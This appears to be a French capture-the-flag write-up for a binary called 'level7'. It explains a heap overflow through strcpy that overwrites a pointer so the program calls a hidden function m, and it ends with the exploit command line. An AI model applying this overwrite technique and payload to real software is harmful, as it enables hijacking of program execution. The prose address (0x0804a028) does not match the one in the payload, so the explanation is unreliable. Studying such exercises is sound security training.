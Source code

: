 quand on disas main et info functions on a encore une fonction m avec comme address (0x080484f4) qui n'est pas call dans le main

avec ltrace ./level7

on voit qu'il y a 4 malloc de 8
avec comme address : 
0x0804a008 - 1
0x0804a018 - 2
0x0804a028 - 3
0x0804a038 - 4

on a 2 variables malloc qui sont des tableaux

a et b

Pour le premier argument
On se met sur LE DEBUT DU MALLOC a[1] (0x0804a028) + 20 pour arriver a AU DEBUT DE b[1] (0x0804a038)
une fois sur b[1] on lui met b (0x0804a028)

et le 2eme argument qui lui est egal a b (qui a ete modifie par b[1] car c'est lui qui est appele dans strcpy)
on lui met l'adresse de M (0x080484f4)

ce qu'il fait qu'il va appeler M


./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')